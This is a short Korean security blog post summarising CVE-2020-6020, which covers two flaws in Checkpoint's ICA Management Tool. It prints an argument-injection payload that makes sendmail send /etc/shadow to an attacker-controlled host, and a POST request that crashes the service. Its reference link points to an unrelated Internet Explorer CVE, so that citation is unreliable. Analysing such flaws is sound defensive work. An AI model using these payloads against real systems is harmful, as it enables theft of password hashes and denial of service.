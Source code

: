 ```yaml
---
title: "[하루한줄] CVE-2020-6020: Checkpoint ICA Management Tool에서 발견된 취약점 2가지"
author: idioth
tags: [idioth, argument injection, dos, checkpoint]
categories: [1day1line]
date: 2020-11-23 18:00:00
cc: false
index_img: /img/1day1line.png
---
```


## URL 

[CVE-2020-17053: Use-After-Free IE Vulnerability](https://www.trendmicro.com/en_us/research/20/k/cve-2020-17053-use-after-free-ie-vulnerability.html)

## Target

- Checkpoint Security Manager - ICA Management Tool



## Explain

ICA Management Tool에서 메일을 보내는 프로세스인 cpca는 sendmail 바이너리를 통하여 메일을 전송합니다. sendmail은 파일 전송 기능을 지원하며 인자로 파일 이름을 넘겨주면 해커의 메일 서버로 파일을 전송할 수 있습니다.

해커가 netcat 등을 통해 서버를 연 후 Configure the CA의 "Management Tool mail server"에 `<hacker_ip> -m /etc/shadow %0a%0a`를 입력하면 해커의 메일 서버에 `/etc/shadow` 파일 내용이 메일 형식으로 날아오게 됩니다. 해당 취약점은 신뢰할 수 있는 관리자에 대해서 유효성 검사를 하지 않아서 발생한 취약점입니다.

Denial of Service의 경우 입력 값에 대한 유효성 검사 실패로 인해 발생합니다. 원격 클라이언트가 다음과 같은 형식으로 POST request를 보낼 경우 프로그램이 종료됩니다.

```
POST /file_init?_ HTTP/1.1
Host: checkpoint.host:18265
Cookie: _
Content-Length: 1

q
```
